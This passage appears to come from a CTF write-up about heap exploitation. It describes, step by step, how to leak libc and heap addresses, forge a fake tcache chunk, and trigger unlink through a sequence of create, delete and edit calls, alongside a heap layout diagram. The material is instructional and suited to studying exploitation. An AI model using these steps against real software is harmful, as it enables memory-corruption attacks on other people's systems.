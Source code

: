 8. edit(C1, padding+fakeC2chunk(size=0x90, prev\_inuse=False, prev\_size=0x300, next\_chunk is valid))
	* craft next\_chunk for tcache\_fake\_chunk
9. delete(C2)


The heap before finally freeing C2 to trigger unlink should look something like this
```
     |       8       |       8       |
0x250|     unused    |             f1|
                    ...
0x340|            300|             90| <- C2
                    ...
0x3d0|               |             71| <- next chunk for C2, so that freeing C2 will not trigger any error
                    ...
0x440|               |             91| <- C3
```


### Putting it together
Now we have managed to leak libc\_base, leak heap\_addr ,craft tcache\_fake\_chunk and craft next\_chunk to unlink with it seperately, lets see how we can combine those two parts to actually trigger unlink without getting any errors

The entire procedure can be illustrated as below, notice the difference between this and previous listed procedure
1. C1 = create(0x388)
2. C2 = create(0x388)
	* for leaking heap
3. C3 = create(0x388)
	* for leaking heap
4. delete(C2)
5. delete(C3)
6. show(C3)
	* leak heap
7. (C2 = create(0x398), delete(C2))
	* set tcache\_fake\_chunk -> prev\_inuse = 1
8. (C2 = delete(0x3a8), delete(C2))*3
	* set tcache\_fake\_chunk -> size = 0x300
9. (C2 = create(0x388),delete(C2))*5
	* two were freed earlier, only five more needed
10. (C2 = create(0x88),delete(C2))*7
11. delete(C1)
	* leak unsorted bin
12. C2 = create(0xe8)
13. C2 = create(0xf8)
14. C3 = create(0x88)
15. edit(C1, padding+fakeC3chunk(size=0x21, prev\_inuse=True, next\_chunk is valid))
	* craft 0x20 chunk
16. delete(C3)
	* set tcache\_fake\_chunk -> fd = C3+0x10
17. edit(C1, padding+fakeC3chunk(size=0x31, prev\_inuse=True, next\_chunk is valid))
	* craft 0x30 chunk
18. delete(C3)
	* set tcache\_fake\_chunk -> bk = C3+0x10
19. edit(C1, padding+fakeC2chunk(size=0x90, prev\_inuse=False, prev\_size=0x300, next\_chunk is valid)+fakeunsortedchunk(addr=C3+0x10))
	* also prepare fake\_unsorted\_chunk here
20. delete(C2)
